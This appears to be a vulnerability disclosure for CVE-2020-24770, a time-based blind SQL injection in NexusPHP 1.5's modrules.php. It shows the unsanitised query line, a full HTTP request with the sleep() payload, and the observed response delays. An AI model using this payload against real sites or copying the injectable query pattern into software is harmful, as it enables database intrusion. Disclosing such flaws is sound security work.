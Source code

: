 Need get the administrator's identity to complete the attack.

# CVE-2020-24770

#### Affected software: NexusPHP 1.5

#### fixed version: nexusphp v1.6.0-beta2 https://github.com/xiaomlove/nexusphp/releases

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/xiaomlove/nexusphp

##  Vulnerability details

#### modrules.php:line 42

```	
	$res = @mysql_fetch_array(@sql_query("select * from rules where id='$id'"));
```
#### exploit:
```
GET /modrules.php?act=edit&id=1%27%20and%20sleep(2)%23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: administrator_cookies
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

/modrules.php?act=edit&id=1%27%20and%20sleep(2)%23

The return will be delayed for 2 seconds  

/modrules.php?act=edit&id=1%27%20and%20sleep(0)%23

The return will be delayed for 0 seconds  
